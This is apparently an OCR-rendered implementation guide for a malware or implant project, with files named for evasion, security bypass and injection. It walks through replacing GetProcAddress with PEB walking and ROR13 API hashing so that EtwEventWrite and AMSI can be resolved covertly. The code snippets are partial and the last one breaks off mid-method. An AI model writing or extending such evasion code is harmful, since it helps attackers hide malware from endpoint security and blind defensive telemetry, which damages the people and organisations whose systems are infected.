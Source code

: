 **Files to Modify:**
1. `Core/advanced_evasion.py`
2. `Core/security_bypass.py`
3. `Core/elite_commands/elite_inject.py`
4. `Core/elite_commands/elite_vmscan.py`

### **Step 1.1: Create Core/api_hashing.py**

Complete implementation is provided in ELITE_SECURITY_AUDIT_2025.md under ISSUE #1.

**Key Points:**
- No GetProcAddress or LoadLibrary calls
- Walk PEB manually for modules
- Parse PE export table for functions
- ROR13 hash algorithm (industry standard)
- 200+ pre-computed hashes

**Validation:**
```python
# Test API hashing works
from Core.api_hashing import APIHashResolver

resolver = APIHashResolver()

# Test module resolution
ntdll = resolver.get_module_base_hashed(0x1EDAB0ED)
assert ntdll is not None, "Failed to find ntdll.dll"

# Test function resolution
etw = resolver.get_proc_address_hashed(ntdll, 0x9B4C8D73)
assert etw is not None, "Failed to find EtwEventWrite"

print("✅ API hashing working correctly")
```

### **Step 1.2: Update Core/advanced_evasion.py**

**OLD CODE (lines 59-62):**
```python
etw_event_write = self.kernel32.GetProcAddress(
    self.kernel32.GetModuleHandleW("ntdll.dll"),
    b"EtwEventWrite"
)
```

**NEW CODE:**
```python
from .api_hashing import APIHashResolver

class AdvancedEvasion:
    def __init__(self):
        self.is_windows = sys.platform == 'win32'
        self.evasion_applied = set()
        
        if self.is_windows:
            # Initialize API resolver
            self.api_resolver = APIHashResolver()
            self._resolve_apis()
    
    def _resolve_apis(self):
        """Resolve all APIs via hashing"""
        # Module hashes
        ntdll_hash = 0x1EDAB0ED
        kernel32_hash = 0x6A4ABC5B
        amsi_hash = 0x8B3AD6C1
        
```